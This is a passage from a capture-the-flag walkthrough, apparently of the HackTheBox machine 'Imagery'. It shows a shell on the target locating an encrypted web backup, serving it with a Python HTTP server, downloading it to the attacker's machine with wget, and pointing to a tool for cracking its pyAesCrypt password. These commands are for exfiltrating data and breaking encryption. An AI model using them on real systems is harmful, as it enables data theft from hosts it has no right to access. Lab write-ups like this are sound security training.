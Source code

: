 ```bash
-rw-r--r--  1 root root    208 Oct  7  2024 .updated
web@Imagery:/var$ cd backup
web@Imagery:/var/backup$ ls -la
total 22524
drwxr-xr-x  2 root root     4096 Sep 22 18:56 .
drwxr-xr-x 14 root root     4096 Sep 22 18:56 ..
-rw-rw-r--  1 root root 23054471 Aug  6  2024 web_20250806_120723.zip.aes
```

Found out this file in `backups`. <br>
&rarr; Gonna download it back to our kali and take a look at it.

```bash
web@Imagery:/var/backup$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

```bash
└─$ wget http://imagery.htb:8080/web_20250806_120723.zip.aes
```

> *This file is huge and take like more than 30 minute to get this boy down :D*

```bash
web@Imagery:/var/backup$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
10.10.16.13 - - [28/Sep/2025 09:55:47] "GET /web_20250806_120723.zip.aes HTTP/1.1" 200 -
```

### pyAesCrypt
```bash
└─$ file web_20250806_120723.zip.aes 
web_20250806_120723.zip.aes: AES encrypted data, version 2, created by "pyAesCrypt 6.1.1"
```

So this file is AES encrypted data so we need to got password in order to decrypt this file out.

![Imagery Website Report Bug](/assets/img/imagery-htb-season9/imagery-htb-season9_website-report-bug-21.png)

Take little time to searching and got this one [](https://github.com/Nabeelcn25/dpyAesCrypt.py) to help us out.
